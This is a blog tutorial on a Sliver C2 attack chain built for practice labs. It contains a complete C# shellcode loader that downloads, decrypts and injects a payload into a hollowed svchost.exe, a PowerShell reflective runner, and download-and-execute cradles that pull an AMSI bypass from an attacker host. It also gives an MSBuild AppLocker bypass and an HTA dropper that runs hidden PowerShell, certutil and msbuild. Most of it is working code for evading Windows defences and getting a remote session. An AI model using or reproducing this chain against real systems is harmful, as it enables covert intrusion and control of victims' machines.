

# Introduction

Sliver C2 is the hottest command & control tool right now. but you dont have to take my word for it , here is Adam chester  (aka XPN) tweet about it :
https://twitter.com/_xpn_/status/1530553847894233089

he is not the only one holding this opinion. becuase the capabilities that Sliver C2 offers are just incredible! and free !
you can check https://github.com/BishopFox/sliver and https://bishopfox.com/tools/sliver to get an idea about what it can offer. 
if you are planning on switching, or just experimenting with it, you would want to practice the cyber killchain on labs such as the HackTheBox Pro Labs . this is not straight forward process if you want realistic code execution paths despite the slow download speed on these labs. 
on this blog, i will show you how i managed to solve that problem by combining Sliver C2 staging with the dotnet framework. 

# Backstory

i got interested in Sliver C2 when i was going through some enterprise labs. metasploit tedious workflow for attacking an enterprise network played a huge part on that. i started exploring other options online until some fellow students introduced me to Sliver C2 . i was totally amazed by it, but i never managed to get it to work properly or at a lest in a useable state . mainly becuase i didnt understand the inner workings of it . 
i was not able to get a shell because the stagers took too long to download it (the smallest size i was able to generate was 10MB) so the web client was timing out , our with shellcode, it would take forever to download. which was not practical at all. 

# Sliver C2 Staging Protocol

The [Stagers Wiki Page](https://github.com/BishopFox/sliver/wiki/Stagers) of Sliver C2 goes more indepth into how the protocol works. but what you need to know to get started is much lesser. the critical points that you need to understaed are :
- Sliver C2 is written in GoLang. _Go_ creates _static_ binaries, the compromise with that is the binaries will be huge in size. Sliver C2 offers compression to deal with that. 
- Sliver implements staging using a concept called profiles. a profile is a buleprint that defines the staging configuration that the operation will follow. 
- Sliver can generate a stagers (typically in the form of shellcode) that will call to the stage listener to fetch the rest of the payload. 
- We can write our own stager to fetch the rest of the payload instead of using the shellcode generated by Sliver.

# Defining the Goal

Our goal is to create a shellcode runner that has the following caracteristcs :
### it has to be written in a language that is supported by default on windows:
- For that we will use dotnet framework 4.0 which is installed by default on windows 10 operating systems. even updated legacy systems will have it installed. we will use it with a combination of powershell and C#.
### it has to bypass the commun defenses found on the modern windows operating systems:
- the defenses we will attempt to bypass are windows defender , AMSi , and applocker. 
### it has to use a communly whitelisted protocol in order to bypass the firewall rules and  fit in with the normal traffic:
- we will use the HTTPS protocol with custom SSL certificates and keys in order to maximze our chances of getting our code executed. we will also use AES encyption to encrypt the the shellcode to offer additional layers of obfuscation.

# Setting Up Sliver C2 

- you can follow the [wiki page][] to install Sliver C2.
- when the installation is done. First we will get the Sliver C2 service started by running the following command:
```bash
sudo systemctl start sliver
```
- next we lunch sliver (by running the "sliver" command from the shell). after that we will create a new profile by running this command :
```bash
profiles new -b  https://192.168.1.11:443 --skip-symbols --format shellcode --arch amd64 local
# --skip-symbols to speed up the building process
# local is the name of the profile. you can use any name you want.
```
- next we will start our listener . we will have to specify the same port , ip address and protocol we specifiled when we created the profile. for the SSL cert and key , i used the metasploit module "" on google.com . you can follow the steps on [this article](https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation) in order to achieve that:
```bash
https -L 192.168.1.11 -l 443 -c /home/ycf/blog/sliver/crt.crt -k /home/ycf/blog/sliver/key.key
```
- next we will use the stage-listener command to lunch our staging server. we will specify the port 8080 with the HTTPS protocol . we will specify the same SSL cert and key we got from metasploit. we will also specify the compression algorithm in addition to the aes encryption keys as follows :
```bash
stage-listener --url https://192.168.1.11:8080 --profile local -c /home/ycf/blog/sliver/crt.crt -k /home/ycf/blog/sliver/key.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV 
```
- to confirm that our listeners are running , we run the jobs command :
```bash
jobs
```


# Designing the Shellcode Runner

The feature that i want to include in this Shellcode runner is :
- support for the differnet staging cenarios that Sliver C2 offers (raw shellcode , compression, aes encryption, compression and aes encryption ..etc)
- process injection
- amsi bypass
- in memory execution
- flexibility when passing arguments (no hardcoded parameters.  instead , i will be able to pass the arguments on the fly)
there are different approaches we can take to achieve this . what i ended up choosing was :
- write a C# dll assembly that contains all the classes and the methods we need.
- embed it in the powershell script as a base64 string
- decode the assembly and load it to the process using reflection.
- specify the arguments and execute the methods.

# Downlaoding the shellcode

 This was one of the main problems i encountered back when i started. the default dot net webclient object times out the connection after 60 seconds. and this attribute can not be easily changed. the solution for that is to implement a sightly modified version of the web client object where we can override the default timeout with the value we need. 
 the implementation of that on C# is :
```C#
 public class WebClientWithTimeout : WebClient
        {
            protected override WebRequest GetWebRequest(Uri address)
            {
                WebRequest wr = base.GetWebRequest(address);
                wr.Timeout = 50000000; // timeout in milliseconds (ms)
                return wr;
            }
        }
```
since we are using a custom SSL cert , we will have to instruct the web client to ignore it . to do that we will use certificate validation handler that returns the value true as follows :
```csharp
ServicePointManager
    .ServerCertificateValidationCallback += 
    (sender, cert, chain, sslPolicyErrors) => true;
```

# Decrypting the shellcode 

on the [Stagers wiki page]() , the Sliver C2 team has a template for a C# shellcode runner that implements aes encryption. we can just use the decryption method they provide :
```C#
public static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }
```

# Decompressing the shellcode

Sliver C2 supports gzip,deflate9 and zlib compression algorithms. i ended up not implementing zlib  because its only supported on dotnet framework version 7.0 and above which does not fit our usecase. 
we will have to set the decompression algorithm parameter to  gzip, deflate9 . any other value will be treated as "no decompression needed" :
```C#
        public static byte[] Decompress(byte[] data, string CompressionAlgorithm)
        {
            byte[] decompressedArray = null;
            if (CompressionAlgorithm == "deflate9")
            {
                using (MemoryStream decompressedStream = new MemoryStream())
                {
                    using (MemoryStream compressStream = new MemoryStream(data))
                    {
                        using (DeflateStream deflateStream = new DeflateStream(compressStream, CompressionMode.Decompress))
                        {
                            deflateStream.CopyTo(decompressedStream);
                        }
                    }
                    decompressedArray = decompressedStream.ToArray();
                }
                return decompressedArray;
            }
            else if (CompressionAlgorithm == "gzip")
            {
                using (MemoryStream decompressedStream = new MemoryStream())
                {
                    using (MemoryStream compressStream = new MemoryStream(data))
                    {
                        using (GZipStream gzipStream = new GZipStream(compressStream, CompressionMode.Decompress))
                        {
                            gzipStream.CopyTo(decompressedStream);
                        }
                    }
                    decompressedArray = decompressedStream.ToArray();
                }
                return decompressedArray;
            }
            else
            {

                return data;
            }


        }
```

# Injecting the Shellcode into Another Process and Executing it :

for that i ended using the process hollowing script from [defcon's offensive C# workshop](https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab7/3.cs). you can use and C# process injection you want. 

# The Final Source Code :

i added some conditional operations to seperate the different workflows from each other. and to allow us to pass the parameters we want to the different methods
the final source code will look like this :
```C#
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;
using System.IO.Compression;
namespace Sl1verLoader
{
    public class Program
    {
        private static string AESKey;
        private static string AESIV;

        [StructLayout(LayoutKind.Sequential)]
        public class SecurityAttributes
        {
            public Int32 Length = 0;
            public IntPtr lpSecurityDescriptor = IntPtr.Zero;
            public bool bInheritHandle = false;

            public SecurityAttributes()
            {
                this.Length = Marshal.SizeOf(this);
            }
        }
        [StructLayout(LayoutKind.Sequential)]
        public struct ProcessInformation
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public Int32 dwProcessId;
            public Int32 dwThreadId;
        }
        [Flags]
        public enum CreateProcessFlags : uint
        {
            DEBUG_PROCESS = 0x00000001,
            DEBUG_ONLY_THIS_PROCESS = 0x00000002,
            CREATE_SUSPENDED = 0x00000004,
            DETACHED_PROCESS = 0x00000008,
            CREATE_NEW_CONSOLE = 0x00000010,
            NORMAL_PRIORITY_CLASS = 0x00000020,
            IDLE_PRIORITY_CLASS = 0x00000040,
            HIGH_PRIORITY_CLASS = 0x00000080,
            REALTIME_PRIORITY_CLASS = 0x00000100,
            CREATE_NEW_PROCESS_GROUP = 0x00000200,
            CREATE_UNICODE_ENVIRONMENT = 0x00000400,
            CREATE_SEPARATE_WOW_VDM = 0x00000800,
            CREATE_SHARED_WOW_VDM = 0x00001000,
            CREATE_FORCEDOS = 0x00002000,
            BELOW_NORMAL_PRIORITY_CLASS = 0x00004000,
            ABOVE_NORMAL_PRIORITY_CLASS = 0x00008000,
            INHERIT_PARENT_AFFINITY = 0x00010000,
            INHERIT_CALLER_PRIORITY = 0x00020000,
            CREATE_PROTECTED_PROCESS = 0x00040000,
            EXTENDED_STARTUPINFO_PRESENT = 0x00080000,
            PROCESS_MODE_BACKGROUND_BEGIN = 0x00100000,
            PROCESS_MODE_BACKGROUND_END = 0x00200000,
            CREATE_BREAKAWAY_FROM_JOB = 0x01000000,
            CREATE_PRESERVE_CODE_AUTHZ_LEVEL = 0x02000000,
            CREATE_DEFAULT_ERROR_MODE = 0x04000000,
            CREATE_NO_WINDOW = 0x08000000,
            PROFILE_USER = 0x10000000,
            PROFILE_KERNEL = 0x20000000,
            PROFILE_SERVER = 0x40000000,
            CREATE_IGNORE_SYSTEM_DEFAULT = 0x80000000,
        }


        [StructLayout(LayoutKind.Sequential)]
        public class StartupInfo
        {
            public Int32 cb = 0;
            public IntPtr lpReserved = IntPtr.Zero;
            public IntPtr lpDesktop = IntPtr.Zero;
            public IntPtr lpTitle = IntPtr.Zero;
            public Int32 dwX = 0;
            public Int32 dwY = 0;
            public Int32 dwXSize = 0;
            public Int32 dwYSize = 0;
            public Int32 dwXCountChars = 0;
            public Int32 dwYCountChars = 0;
            public Int32 dwFillAttribute = 0;
            public Int32 dwFlags = 0;
            public Int16 wShowWindow = 0;
            public Int16 cbReserved2 = 0;
            public IntPtr lpReserved2 = IntPtr.Zero;
            public IntPtr hStdInput = IntPtr.Zero;
            public IntPtr hStdOutput = IntPtr.Zero;
            public IntPtr hStdError = IntPtr.Zero;
            public StartupInfo()
            {
                this.cb = Marshal.SizeOf(this);
            }
        }
        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateProcessA(String lpApplicationName, String lpCommandLine, SecurityAttributes lpProcessAttributes, SecurityAttributes lpThreadAttributes, Boolean bInheritHandles, CreateProcessFlags dwCreationFlags,
                IntPtr lpEnvironment,
                String lpCurrentDirectory,
                [In] StartupInfo lpStartupInfo,
                out ProcessInformation lpProcessInformation

            );

        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, Int32 dwSize, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32.dll")]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] buffer, IntPtr dwSize, int lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);


        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
        private static UInt32 MEM_COMMIT = 0x1000;

        public static void DownloadAndExecute(string url, string TargetBinary, string CompressionAlgorithm,byte[] AESKey,byte[] AESIV)
        {

            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new WebClientWithTimeout();

            byte[] encrypted = client.DownloadData(url);
            List<byte> l = new List<byte> { };
            byte[] actual;
            byte[] compressed;
            if (AESKey != null && AESIV != null)
            {


                for (int i = 16; i <= encrypted.Length - 1; i++)
                {
                    l.Add(encrypted[i]);

                }
                actual = l.ToArray();
                compressed = Decrypt(actual, AESKey, AESIV);
            }
            else
            {
                compressed = encrypted;

            }


            byte[] sc = Decompress(compressed, CompressionAlgorithm);
            string binary = TargetBinary;

            Int32 size = sc.Length;
            StartupInfo sInfo = new StartupInfo();
            sInfo.dwFlags = 0;
            ProcessInformation pInfo;
            string binaryPath = "C:\\Windows\\System32\\" + binary;
            IntPtr funcAddr = CreateProcessA(binaryPath, null, null, null, true, CreateProcessFlags.CREATE_SUSPENDED, IntPtr.Zero, null, sInfo, out pInfo);
            IntPtr hProcess = pInfo.hProcess;
            IntPtr spaceAddr = VirtualAllocEx(hProcess, new IntPtr(0), size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

            int test = 0;
            IntPtr size2 = new IntPtr(sc.Length);
            bool bWrite = WriteProcessMemory(hProcess, spaceAddr, sc, size2, test);
            CreateRemoteThread(hProcess, new IntPtr(0), new uint(), spaceAddr, new IntPtr(0), new uint(), new IntPtr(0));
            return;
        }
        public static byte[] Decompress(byte[] data, string CompressionAlgorithm)
        {
            byte[] decompressedArray = null;
            if (CompressionAlgorithm == "deflate9")
            {
                using (MemoryStream decompressedStream = new MemoryStream())
                {
                    using (MemoryStream compressStream = new MemoryStream(data))
                    {
                        using (DeflateStream deflateStream = new DeflateStream(compressStream, CompressionMode.Decompress))
                        {
                            deflateStream.CopyTo(decompressedStream);
                        }
                    }
                    decompressedArray = decompressedStream.ToArray();
                }
                return decompressedArray;
            }
            else if (CompressionAlgorithm == "gzip")
            {
                using (MemoryStream decompressedStream = new MemoryStream())
                {
                    using (MemoryStream compressStream = new MemoryStream(data))
                    {
                        using (GZipStream gzipStream = new GZipStream(compressStream, CompressionMode.Decompress))
                        {
                            gzipStream.CopyTo(decompressedStream);
                        }
                    }
                    decompressedArray = decompressedStream.ToArray();
                }
                return decompressedArray;
            }
            else
            {

                return data;
            }


        }
        public static byte[] Decrypt(byte[] ciphertext, byte[] AESKey, byte[] AESIV)
        {
            byte[] key = AESKey;
            byte[] IV = AESIV;

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }
        public class WebClientWithTimeout : WebClient
        {
            protected override WebRequest GetWebRequest(Uri address)
            {
                WebRequest wr = base.GetWebRequest(address);
                wr.Timeout = 50000000; // timeout in milliseconds (ms)
                return wr;
            }
        }
    }
}

```

# Compiling the Assembly

- run visual studio and create a new project .

- select the "Class Library(.Net Framework) tempate" and paste the she source code. 

- build the assembly (release / x64). 


# Writing the Powershell Shellcode Runner:

- first we will have to copy the raw bytes of the assembly , for that we will use this powershell command(this will copy the data to your cllipboard):
```powershell
get-content -encoding byte -path .\sliverloader.dll | clip
```
- next we will use [cyberchef]() to convet the data to base64 as follows:

- copy the base64 string and paste it on this template script:
```powershell
$encodeStr = "TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...etc"

$decodeStr = [System.Convert]::FromBase64String($encodeStr)
[System.Reflection.Assembly]::Load($decodeStr)
$url = #stage listener url
$TargetBinary = #the binarry to hollow and inject shellcode into (svchost.exe as an example)
[byte[]]$AESKey = 
[byte[]]$AESIV = 


$CompressionAlgorithm = "deflate9" # gzip, leave empty for no decompression
[Sl1verLoader.Program]::DownloadAndExecute($url,$TargetBinary,$CompressionAlgorithm,$AESKey,$AESIV)#lunch the method 
```
the only problem i face with powershell is that it does not support raw byte encoding which Sliver C2 uses for AES Encryption. the workarounds for this are to either embed the keys inside the assembly which will make the process of changing them tedious. or convert the keys to raw bytes using cyberchef and passing them to the script which i ended up using. 
- to convert the keys to raw bytes ,  use the follwing receipe on cyberchef:

- our final shellcode runner will look like this:
```powershell
$encodeStr = "TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA..etc"

$decodeStr = [System.Convert]::FromBase64String($encodeStr)
[System.Reflection.Assembly]::Load($decodeStr)
$url = "https://192.168.1.11:8080/test.woff"
$TargetBinary = "svchost.exe"
[byte[]]$AESKey = 0x44,0x28,0x47,0x2b,0x4b,0x62,0x50,0x65,0x53,0x68,0x56,0x6d,0x59,0x71,0x33,0x74,0x36,0x76,0x39,0x79,0x24,0x42,0x26,0x45,0x29,0x48,0x40,0x4d,0x63,0x51,0x66,0x54
[byte[]]$AESIV = 0x38,0x79,0x2f,0x42,0x3f,0x45,0x28,0x47,0x2b,0x4b,0x62,0x50,0x65,0x53,0x68,0x56

$CompressionAlgorithm = "deflate9"
[Sl1verLoader.Program]::DownloadAndExecute($url,$TargetBinary,$CompressionAlgorithm,$AESKey,$AESIV)
```

# AMSI Bypass

if you are looking to use sliver, you probably have your own amsi bypass, in case you dont, you can follow [this article](https://fatrodzianko.com/2020/08/25/getting-rastamouses-amsiscanbufferbypass-to-work-again/) or [this repo](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) in order to write your own. however you should stick to the amsi scan buffer patch bypass as it bypasses amsi for the whole process (powershell and dotnet framework) and not just powershell like the matt graeber bypass. 

# Getting the Shell 

- first we will host our shell code runner "SliverPhollow.txt"  and our amsi bypass "am.txt" which will call our shell code runner after amsi is bypassed. (add this as the last line on your am.txt file : (New-Object System.Net.WebClient).DownloadString('http://192.168.1.11:80/SliverPhollow.txt') | IEX)
- we then will execute our download cradle and we get a shell !! 
```
(New-Object System.Net.WebClient).DownloadString('http://192.168.1.11:80/am.txt') | IEX
```

- we are running from the hollowed process we specified :


- with the slow download speed on the labs , this will take 49s exatly to get the shellback. 
- to disable the aes decryption, submit the $null value to the keys. 
- to disable the decompression, submit any other value than gzip or deflate9.

# Applocker Bypass

- i chose the [msbuild applocker bypass](https://pentestlab.blog/2017/05/29/applocker-bypass-msbuild/) with one small addition , it importing the of the `System.Management.Automation.dll` which took some time to figure out. 
- the script will reference the dll , create a new runspace (which will not be subject to powershell constrained language mode) then fetch the amsi bypass and the shellcode runner and execute them.
- to alter the workflow of the code you can add a reference to any dll you want using this statement as an example :
```C#
 <Reference Include="System.Management.Automation" />
```
- we will embeded our file as base64 to write it to disk , decode it using certutil then execute it using the msbuild.exe binary. 
- our xml file will look like this :(special thanks to [evi1cg](https://evi1cg.me/archives/ypassing_Applocker_with_MSBuild-exe.html) and [chvancooten](https://github.com/chvancooten/OSEP-Code-Snippets)
```C#
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <!-- This inline task executes c# code. -->
  <!-- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe pshell.xml -->
   <!-- Author: Casey Smith, Twitter: @subTee -->
  <!-- License: BSD 3-Clause -->
  <Target Name="Hello">
   <FragmentExample />
   <ClassExample />
  </Target>
  <UsingTask
    TaskName="FragmentExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <ParameterGroup/>
    <Task>
      <Using Namespace="System" />
      <Using Namespace="System.IO" />
      <Code Type="Fragment" Language="cs">
        <![CDATA[
                Console.WriteLine("Hello From Fragment");
        ]]>
      </Code>
    </Task>
    </UsingTask>
    <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
      <Reference Include="System.Management.Automation" />
      <Code Type="Class" Language="cs">
        <![CDATA[
        
            using System;
            using System.IO;
            using System.Diagnostics;
            using System.Reflection;
            using System.Runtime.InteropServices;
            //Add For PowerShell Invocation
            using System.Collections.ObjectModel;
            using System.Management.Automation;
            using System.Management.Automation.Runspaces;
            using System.Text;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;
                            
            public class ClassExample :  Task, ITask
            {
                public override bool Execute()
                {
                    String cmd = @"(New-Object Net.WebClient).DownloadString('http://192.168.1.11/am.txt') | iex";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
            return true;
                    
                
                }
                
                
            }
            
            
 
            
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>

```
- what we will do next is [base64 this text](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')) then paste it into this script and save it as hta :
```jscript
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var re = shell.Run("powershell -windowstyle hidden echo PFByb2plY...etc  > c:\\windows\\temp\\enc3.txt;certutil -decode c:\\windows\\temp\\enc3.txt c:\\windows\\temp\\d.xml;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\msbuild.exe C:\\windows\\temp\\d.xml")
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
- host the hta file as well as the amsi bypass and the shellcode runner scripts on a web server, and call them using this command :
```
mshta.exe http://192.168.1.11/htafile.hta
```
- check your Sliver console ! 
```C#
[*] Session 762de3f2 STATUTORY_FIGHT - 192.168.1.3:49574 (DESKTOP-BPD57DK) - windows/amd64 - Wed, 12 Apr 2023 13:55:31 EDT
```


# Conclusion

- i can not recommend this tool enough , its a long jour

Visit the [Hugo](https://gohugo.io) website!